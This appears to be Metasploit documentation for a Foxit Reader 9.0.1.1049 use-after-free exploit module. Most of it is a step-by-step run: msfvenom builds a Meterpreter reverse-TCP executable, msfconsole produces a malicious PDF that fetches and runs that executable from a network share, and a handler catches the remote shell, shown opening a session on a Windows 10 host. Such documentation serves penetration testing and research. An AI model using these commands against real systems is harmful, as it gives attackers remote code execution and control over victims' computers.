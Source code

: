 ## Description

Foxit Reader v9.0.1.1049 and earlier are affected by use-after-free and uninitialized memory vulnerabilities that can be used to gain code execution. This module uses Uint32Array uninitialized memory and text annotation use-after-free vulnerabilities to call WinExec with a share file path to download and execute the specified exe. The module has been tested against Foxit Reader v9.0.1.1049 running on Windows 7 x64 and Windows 10 Pro x64 Build 17134. Windows 10 Enterprise needs to have [insecure logons enabled](https://support.microsoft.com/en-ca/help/4046019) for the exploit to work as expected.

## Vulnerable Application

[Foxit Reader v9.0.1.1049](https://www.exploit-db.com/apps/1040d634123948886f664afc95ec0a5e-FoxitReader901_enu_Setup_Prom.exe) and earlier

## Verification Steps

1. `./msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> --arch x86 -f exe /share/path/tmp.exe`
2. `chmod 777 /share/path/tmp.exe`
3. `./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share <share> ; set lhost <lhost> ; run`
4. `use multi/handler`
5. `set payload windows/meterpreter/reverse_tcp`
6. `set lhost <lhost>`
9. `run -j`
10. Copy pdf over to target. Start Foxit Reader then open pdf from Foxit's Menu.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Foxit Reader v9.0.1.1049 running on Windows 10 Pro x64 Build 17134

```
msfdev@simulator:~/git/metasploit-framework
$ ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.222.197 LPORT=4444 --arch x86 -f exe -o /opt/malicious/tmp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /opt/malicious/tmp.exe
msfdev@simulator:~/git/metasploit-framework
$ chmod 777 /opt/malicious/tmp.exe 
msfdev@simulator:~/git/metasploit-framework
$ ./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share tmp ; set lhost 172.22.222.197 ; run '
exename => tmp.exe
share => tmp
lhost => 172.22.222.197
[*] share_path: \\172.22.222.197\tmp\tmp.exe
[+] test.pdf stored at /home/msfdev/.msf4/local/test.pdf
msf5 exploit(windows/fileformat/foxit_reader_uaf) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf5 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.197:4444 -> 172.22.222.200:49673) at 2018-08-21 07:50:34 -0500

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP\msfdev
```
